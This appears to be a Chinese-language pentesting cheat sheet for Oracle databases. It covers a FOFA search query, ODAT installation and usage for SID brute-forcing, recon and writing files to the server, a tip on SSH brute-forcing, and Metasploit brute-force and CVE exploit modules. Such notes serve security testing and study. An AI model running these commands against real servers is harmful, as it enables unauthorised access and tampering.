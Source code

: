 # Oracle

Oracle Database Server 是美国甲骨文（Oracle）公司的一套关系数据库管理系统。该数据库管理系统提供数据管理、分布式处理等功能。

> fofa : app="Oracle-数据库"

**版本号**
- oracle 版本号是真的乱,Oracle 数据库版本号请看维基百科 [Oracle Database](https://en.wikipedia.org/wiki/Oracle_Database)

**注入**
- [Oracle数据库注入笔记](../Web安全/Web_Generic/SQLi.md#Oracle)

**Tips**

- scott 用户默认没有启用
- 可以用 oracle 的账号试试 ssh 的爆破

**相关文章**
- [How to hack an Oracle database server](https://hackingprofessional.github.io/Security/how-to-hack-an-Oracle-database-server/)

**相关渗透工具**
- [jas502n/oracleShell](https://github.com/jas502n/oracleShell) - oracle 数据库命令执行工具,支持连接的 Oracle 版本较低
- [quentinhardy/odat](https://github.com/quentinhardy/odat) - Oracle 数据库攻击工具,支持功能包括爆破 SID,提权,命令执行
    ```bash
    # 安装
    apt install -y libaio1 alien
    apt install -y python3-scapy
    pip3 install colorlog termcolor pycrypto passlib cx_Oracle pyinstaller
    pip3 install argcomplete && activate-global-python-argcomplete
    git clone https://github.com/quentinhardy/odat.git

    # 访问 https://www.oracle.com/database/technologies/instant-client/linux-x86-64-downloads.html 下载 rpm 包
    alien --to-deb oracle-instantclient19.6-basic-19.6.0.0.0-1.x86_64.rpm
    dpkg -i oracle-instantclient19.6-basic_19.6.0.0.0-2_amd64.deb
    export ORACLE_HOME=/usr/lib/oracle/19.6/client64/
    export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
    export PATH=${ORACLE_HOME}bin:$PATH

    sudo -s
    sources /etc/profile
    python3 -c 'import cx_Oracle'
    python3 odat.py -h
    ```
    ```bash
    python3 odat.py all -s 192.168.1.254 -p 1521
    python3 odat.py all -s 192.168.1.254 -p 1521 -d ORA19C -U system -P Test1234

    # 信息收集
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --ping
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --version
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --status

    # 写文件
    echo "Hacked By Gerh" > /tmp/File-Test.txt
    python3 odat.py dbmsxslprocessor -s 192.168.1.254 -p 1521 -d ORA19C -U system -P Test1234 --putFile "/tmp" "File-Test.txt" "/tmp/File-Test.txt"
    ```

**MSF 爆破**
```bash
use admin/oracle/oracle_login
set RHOSTS [IP]
set SID [SID]
run
```

**CVE-2010-3600 Oracle Enterprise Manager Grid Control JSP 代码执行漏洞**
- 漏洞描述

    Oracle Database Server 11.1.0.7 和 11.2.0.1 版本，以及 Enterprise Manager Grid Control 10.2.0.5 版本的 Client System Analyzer 组件中存在未明漏洞。远程攻击者可借助未知向量影响机密性、完整性和可用性。

- 影响版本
    - Oracle:Enterprise_manager_grid_control:10.2.0.5:::
    - Oracle:Database_server:11.1.0.7:::
    - Oracle:Database_server:11.2.0.1:::

- MSF 模块
    ```bash
    use exploit/windows/oracle/client_system_analyzer_upload
    ```

**CVE-2012-1675 Oracle TNS Listener Remote Poisoning**
- 漏洞描述

    Oracle Database Server 在实现上存在可允许攻击者向远程“TNS Listener”组件处理的数据投毒的漏洞。攻击者可利用此漏洞将数据库服务器的合法“TNS Listener”组件中的数据转向到攻击者控制的系统，导致控制远程组件的数据库实例，造成组件和合法数据库之间的攻击者攻击、会话劫持或拒绝服务攻击。

- 影响版本
    - Oracle:Database_server:11.2.0.4:::
    - Oracle:Database_server:11.2.0.3:::
    - Oracle:Database_server:11.2.0.2:::
    - Oracle:Database_server:11.1.0.7:::
    - Oracle:Database_server:10.2.0.5:::

- 相关文章
    - [Oracle TNS Listener Remote Poisoning](http://www.cnblogs.com/zhuxr/p/9618512.html)
    - [ORACLE TNS Listener远程注册投毒（Poison Attack）漏洞](https://blog.csdn.net/wengtf/article/details/46632405)

- MSF 模块
    ```bash
    use auxiliary/admin/oracle/tnscmd       # 该漏洞可以远程获取到 oracle 的内存信息,若是能获取到内存中的数据即为存在漏洞.
    set rhosts [ip]
    run

    use auxiliary/admin/oracle/sid_brute    # 爆破 oracle 的 SID
    set rhosts [ip]
    run
    ```
